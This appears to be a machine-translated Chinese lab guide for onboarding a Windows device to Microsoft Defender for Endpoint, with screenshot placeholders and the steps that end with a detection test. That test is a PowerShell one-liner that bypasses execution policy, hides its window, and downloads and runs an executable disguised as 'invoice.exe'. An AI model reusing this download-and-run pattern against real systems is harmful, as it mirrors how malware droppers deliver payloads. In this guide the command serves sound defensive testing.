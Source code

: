 ![A screenshot of a computer Description automatically
generated](./media/image30.png)

自動生成的計算機 Description 的屏幕截圖

19. 完成後，打開文件夾幷使用**Administrator**權限運行文件。

![A computer screen with a computer screen Description automatically
generated](./media/image31.png)

帶有計算機屏幕的計算機屏幕自動生成的描述

20. 單擊 **More info**。

![Graphical user interface, application Description automatically
generated](./media/image32.png)

圖形用戶界面，自動生成應用程序描述

21. 單擊 **Run anyway**。

![A screenshot of a computer error Description automatically
generated](./media/image33.png)

自動生成的計算機錯誤描述的屏幕截圖

22. 在命令提示符中，按 **Y** 鍵幷按 Enter 鍵確認幷在出現提示時繼續。

![A screenshot of a computer error Description automatically
generated](./media/image34.png)

自動生成的計算機錯誤描述的屏幕截圖

23. 您將收到一條消息，指出設備已載入。在命令提示符中收到消息後，**Press
    any key to continue…**，按任意鍵。

24. 關閉命令提示符後，在管理員模式下打開命令提示符以運行檢測測試，然後在提示符下複製幷運行以下命令。命令提示符窗口將自動關閉。

`powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'`

![Text Description automatically generated](./media/image35.png)
